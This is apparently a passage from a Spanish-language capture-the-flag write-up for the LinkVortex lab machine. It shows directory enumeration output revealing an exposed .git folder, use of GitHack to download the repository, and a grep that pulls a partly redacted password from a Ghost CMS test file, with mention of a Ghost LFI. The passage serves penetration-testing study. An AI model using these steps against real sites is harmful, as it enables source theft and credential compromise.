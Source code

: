 ~~~bash
[16:26:39] Starting:                                                                                                                                        
[16:26:47] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/        
[16:26:47] 200 -  557B  - /.git/                                            
[16:26:47] 200 -   73B  - /.git/description                                 
[16:26:47] 200 -  201B  - /.git/config                                      
[16:26:47] 200 -  620B  - /.git/hooks/                                      
[16:26:47] 200 -   41B  - /.git/HEAD
[16:26:47] 200 -  402B  - /.git/info/                                       
[16:26:47] 200 -  240B  - /.git/info/exclude                                
[16:26:47] 200 -  401B  - /.git/logs/                                       
[16:26:47] 200 -  175B  - /.git/logs/HEAD
[16:26:48] 200 -  147B  - /.git/packed-refs                                 
[16:26:48] 200 -  418B  - /.git/objects/
[16:26:48] 200 -  393B  - /.git/refs/                                       
[16:26:48] 301 -  249B  - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
[16:26:48] 403 -  199B  - /.ht_wsr.txt                                      
[16:26:48] 403 -  199B  - /.htaccess.bak1                                   
[16:26:49] 200 -  691KB - /.git/index
[16:26:49] 403 -  199B  - /.htaccess.orig                                   
CTRL+C detected: Pausing threads, please wait...                              
                                                                            
Task Completed
~~~
Se encontró un archivo .git, esto puede ser realmente util ya que podría entregar código de la pagina en desarrollo, para aprovechar ello existen repositorios en github y ver todo el contenido del .git (https://github.com/lijiejie/GitHack)
~~~bash
python3 GitHack.py http://dev.linkvortex.htb/.git
[+] Download and parse index file ...
[+] .editorconfig
[+] .gitattributes
[+] .github/AUTO_ASSIGN
[+] .github/CONTRIBUTING.md
[+] .github/FUNDING.yml
[+] .github/ISSUE_TEMPLATE/bug-report.yml
<SNIP>
~~~
Con todo descargado se tiene un Dockerfile y una carpeta que redirige a una especie de archivo de configuración, al ver este archivo se ve una variedad de contraseñas por defecto y todas dentro de un archivo admin, asi que teniendo algunas credenciales y sabiendo que existe un LFI para el CMS Ghost, seguramente alguna de estas podría servir.
~~~bash
cat ghost/core/test/regression/api/admin/authentication.test.js | grep 'pass' -A 5 
<SNIP>
            const password = 'O<SNIP>5';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
--
                        password,
                        blogTitle: 'a test blog',
                        theme: 'TryGhost/Dawn',
                        accentColor: '#85FF00',
                        description: 'Custom Site Description on Setup &mdash; great for everyone'
                    }]
--
            await agent.loginAs(email, password);
            await agent
                .get('notifications/')
                .expectStatus(200)
                .expect(({body}) => {
~~~